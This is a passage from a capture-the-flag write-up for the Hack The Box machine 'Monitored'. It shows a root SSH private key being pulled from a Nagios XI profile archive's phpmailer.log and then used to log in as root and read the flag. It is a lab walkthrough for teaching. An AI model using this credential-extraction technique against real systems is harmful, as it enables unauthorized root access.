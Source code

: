 
I only care about one file:

    
    
    nagios@monitored:/usr/local/nagiosxi/var/components$ unzip -p profile.zip profile-1715259437/phpmailer.log
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAnZYnlG22OdnxaaK98DJMc9isuSgg9wtjC0r1iTzlSRVhNALtSd2C
    FSINj1byqeOkrieC8Ftrte+9eTrvfk7Kpa8WH0S0LsotASTXjj4QCuOcmgq9Im5SDhVG7/
    ...[snip]...
    CNvArnlhyB8ZevAAAADnJvb3RAbW9uaXRvcmVkAQIDBA==
    -----END OPENSSH PRIVATE KEY-----
    

#### SSH

With that key, I can SSH into Monitored as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/monitored-root root@monitored.htb
    Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed May  8 15:28:08 2024
    root@monitored:~# 
    

And read `root.txt`:

    
    
    root@monitored:~# cat root.txt
    74cc1c60************************
    

[](/2024/05/11/htb-monitored.html)

